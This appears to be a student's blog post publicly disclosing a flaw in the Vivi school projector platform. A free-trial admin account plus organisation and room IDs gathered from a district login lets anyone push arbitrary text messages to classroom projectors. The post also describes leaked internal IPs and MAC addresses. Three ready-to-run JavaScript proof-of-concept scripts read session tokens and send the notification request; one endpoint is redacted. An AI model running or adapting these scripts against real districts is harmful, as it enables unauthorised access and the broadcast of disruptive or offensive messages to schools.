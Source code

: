+++
title = 'Arbitrarily Send Notifications to Any Vivi Projector'
date = 2025-05-31T00:50:52Z
draft = false
+++

While this vulnerability is more funny than immediately dangerous, the potential abuse factor is still considerable, which is why I am posting htis. With this, someone could disrupt something or send inappropriate messages across a district, compromising the system, based on how much weight the messages carry (this varies school to school; in my school, nobody really cares).

![message on my school projector](../../vivi-message.png)

Although it's a bit hard to see on the image, I was able to write a bunch of nonsense to the central projectors in my school, through a vulnerability in the notification feature, and anyone in the school could see. Vivi is a wireless presentation and collaboration platform that enables users to share content, interact with presentations, and manage projectors without the need for physical connections. It's like software for a Promethean ActivPanel, except Vivi centralizes projector management a lot more, kind of like Google Admin Console. Vivi exposes two important things: first is app.vivi.io, which uses your IP to determine what district you might be trying to log into. Once logged into app.vivi.io, you essentially have no permissions by default. You can get configured rooms in your district, and do stuff like send a request for futher access, but that's about it. The second is a lot more interesting: admin.vivi.io, AKA Vivi Central. This is the centralization piece: administrators can control the district's network of projectors using Vivi through Vivi Central.

Theoretically, instead of silly scripts, notifications could contain offensive or disruptive content, and be pushed to the entire district through chaining data that Vivi gives, but I would personally say that it's pretty unlikely. This post also includes the failures I saw; it was suprised how locked-down the system was. Yes, although I did find some more "vulnerabilities" in the system and what it returned, most of it wasn't useful to chain into a larger vulnerability, and they weren't very important by themselves. I still feel like there's more vulns that exist in Vivi, though.

## TL;DR:

With a target district ID and room IDs for projectors, you can push a text notification to the device. This can be anything, and it can go for a time that you specify. There is only one requirement: you need to be authenticated to the district on Vivi, and in my case, it was possible through SSO (which also automatically signed me up), so you can get room IDs. PoC scripts are attached, and it was made to do this automatically.

Then, to get access to Vivi Central (where you can then run the actual notification-pusher script), sign up at the [IT Admins Trial](https://www.vivi.io/trial/) page; you can create a free, credit-cardless account that works for Vivi Central. Then, with the data gathered through the two prior PoC scripts, you can use the last PoC on https://admin.vivi.io to create the notifications event.

## How it started

In our school, there is a projector in the main commons room that creates a massive projection; for a while, I've wanted to do something to it, but I had never had the opportunity. It was too far up to do anything with the projector's sensors, even when I was directly under it. I couldn't get its IP or Mac Address, and it was actually pretty secure. In fact, I was pretty confused about how they turned the projector off at the end of the day; after this vulnerability, I assume they do it through Vivi Central.

Near the end of the school year, I saw something that immediately grabbed my attention: it was a splash page, and although at first glance, it might not have looked very important, it leaked the software's name which manages the projector. After I saw the instructions on the splash screen and an access code, I immediately tried to start casting my screen to the projectors.

## Plan A

I went to https://app.vivi.io, which asked me for a Vivi account. When I pressed sign in, it created an SSO popup, and I used my account, which actually worked. This suprised me, as I did not expect it to automatically create a student account for me. I saw a list of rooms on my district, and I chose my central projector, which was labeled in a way that I could easily identify it.

However, when I saw the dashboard, I was somewhat disappointed. As expected, I could do nothing important. It was totally useless, but I didn't completely give up. I opened dev tools and started reconning the app, to see if it was a simple bypass. It wasn't, as there were server side checks on most of my actions, but then I saw something that I did not expect to see:

![ip.png](../../ip.png)

## Plan B

It completely leaked the INTERNAL IP and Mac Address of the projector! This was information I was looking for, and now, it leaks it, AND updates the internal IP when it changes. Of course, I couldn't do anything important off the bat with this IP (other than try stuff like a deauth attack, which would have been useless, anyways), but it motivated me to keep digging for an actual vulnerability. My goal was to put my own content arbitrarily on the projector, and I envisioned something like pushing my own image (I was unable to do this, as this was locked down by Vivi Central).

I kept pentesting app.vivi.io, and although I found some cool stuff, like the internal menu used by Vivi Staff, much of it was unimportant.

I found Vivi Central a little bit later, but I wasn't able to log into Vivi Central using my school account like how I was able to log into app.vivi.io. However, a little bit of searching later, I found that they issued on-demand access through free trials that didn't even ask for a credit card. Through this, I was able to access the web panel. From there, after a little tinkering around, I was able to use their request to post a notification to any Vivi device (I know I skipped a lot here, but I did so because I've procrastinated writing this public disclosure for a while; I may complete it later)

## Reporting

The funny thing is that I couldn't find a support email for general inquiries at all, and instead, I had to use their super-restricted general contact form. I used it to tell them about the vulnerability and to email me back so I can report it through email. As I expected, after two buisness days, I got zero replies. I avoid custom forms from companies for this reason: the support team is used to redirecting people to other sectors, and I always have client side reciepts to prove that I did report the issue. However, with Vivi's form, I can't prove that I sent anything, or that they got it at all.

Due to the lack of response to the issue and Vivi's lack of a responsible disclosure process, I'll just release this disclosure early. Please note that the attached PoCs have been redacted a little bit (just the API urls), so I'm not literally releasing zero-days, but the information stated here is enough to reproduce. 

## PoC:

In https://app.vivi.io, while authenticated into the target's district, run this script to grab the organization ID:

```js
fetch("https://api.vivi.io/api/v1/users/identity", {
  "headers": {
    "x-user-email": JSON.parse(localStorage["vivi:session"]).authenticated.user.email,
    "x-user-token": JSON.parse(localStorage["vivi:session"]).authenticated.user.auth_token
  },
  "method": "GET",
  "mode": "cors",
  "credentials": "omit"
})
.then(data => data.json())
.then(data => alert(data.organisation_id))
```

Then, run this script to grab a list of rooms in your district (you must do this in https://app.vivi.io/):

```js
fetch("https://api.vivi.ii/api/v1/rooms?per_page=10000", {
  "headers": {
    "x-user-email": JSON.parse(localStorage["vivi:session"]).authenticated.user.email,
    "x-user-token": JSON.parse(localStorage["vivi:session"]).authenticated.user.auth_token
  },
  "method": "GET",
  "mode": "cors",
  "credentials": "omit"
})
.then(data => data.json())
.then(data => {
    data = data.rooms
    const rooms = data.map(room => ({
        name: room.name,
        room_ids: room.room_ids[0]
    }));
    console.log(rooms);
})
```

Once the target org ID and room ID has been identified, while authenticated in https://admin.vivi.io/ (make sure to sign up for a free trial, to access Vivi Central), run this script to create the notification:

```js
const orgId = prompt("Enter the Organization ID:");
const roomIds = prompt("Enter Room IDs (comma separated):").split(',');
const message = prompt("Enter the message:");
const duration = prompt("Enter the duration (in seconds):");

const authToken = localStorage.getItem("authToken");

if (!authToken) {
    alert("No authorization token found in localStorage.");
} else {
    const payload = {
        destinations: {
            room_group_ids: [],
            room_ids: roomIds
        },
        duration: parseInt(duration, 10),
        message: message,
        organisation_id: orgId
    };

    fetch("https://api.vivi.io/[redacted]", {
        method: "POST",
        headers: {
            "accept": "application/vnd.api+json",
            "authorization": `Bearer ${authToken}`,
            "content-type": "application/vnd.api+json",
        },
        body: JSON.stringify(payload),
        mode: "cors",
        credentials: "omit"
    })
    .then(response => response.json())
    .then(data => {
        console.log("Notification created successfully:", data);
        if (data.errors) {
            
        } else {
            alert("Notification sent successfully. ID: " + data.notification_id);
        }
    })
    .catch(error => {
        console.error("Error sending notification:", error);
        alert("Error sending notification.");
    });
}
```

You can target multiple rooms by splitting Room IDs using commas.
